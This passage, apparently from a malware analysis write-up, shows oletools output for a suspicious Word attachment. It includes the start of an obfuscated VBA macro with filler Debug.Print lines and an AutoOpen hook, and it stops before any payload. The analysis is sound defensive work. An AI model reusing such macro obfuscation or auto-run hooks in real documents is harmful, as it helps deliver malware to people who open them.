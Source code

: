 ```
oleid 0.54 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: ./ANHANG-16231-21845251.doc
 Indicator                      Value
 OLE format                     True
 Has SummaryInformation stream  True
 Application name               Microsoft Office Word
 Encrypted                      False
 Word Document                  True
 VBA Macros                     True
 Excel Workbook                 False
 PowerPoint Presentation        False
 Visio Drawing                  False
 ObjectPool                     True
 Flash objects                  0
```

The second tool I used was `olevba`. It has been used to extract the VBA macros
from the `.doc` file. The output I received looked
[obfuscated](https://en.wikipedia.org/wiki/Obfuscation_(software)) (the snippet
below has been truncated):

```
olevba 0.54.1 on Python 2.7.16 - http://decalage.info/python/oletools
===============================================================================
FILE: ./ANHANG-16231-21845251.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO Swlfot9.cls
in file: ./ANHANG-16231-21845251.doc - OLE stream: u'Macros/VBA/Swlfot9'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO zC7wlka.vba
in file: ./ANHANG-16231-21845251.doc - OLE stream: u'Macros/VBA/zC7wlka'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub K9hj1nG()
   Debug.Print "724" + ("516") + ("UPOp3Hrt" + ("23" + "361") + "vC9PPmCK" + ("rjITKvEv"))
Debug.Print "20" + ("994") + ("u_8YY68" + ("791" + "454") + "rbk4PQH" + ("iqapjj9"))
Debug.Print "942" + ("653") + ("pqQI0T2" + ("226" + "126") + "N7OT4k" + ("Z6j2ENjS"))
   Debug.Print "387" + ("127") + ("wjf7biL" + ("20" + "64") + "nE0OG8" + ("GNXHVKT"))
Debug.Print "255" + ("590") + ("kPaztnd9" + ("626" + "534") + "nc7FkKV" + ("itIImYJ"))
Debug.Print "763" + ("124") + ("lLo5VRP" + ("611" + "629") + "tJnnqa" + ("EPdjCjRp"))
End Sub
Sub _
autoopen( _
)

[...]
```
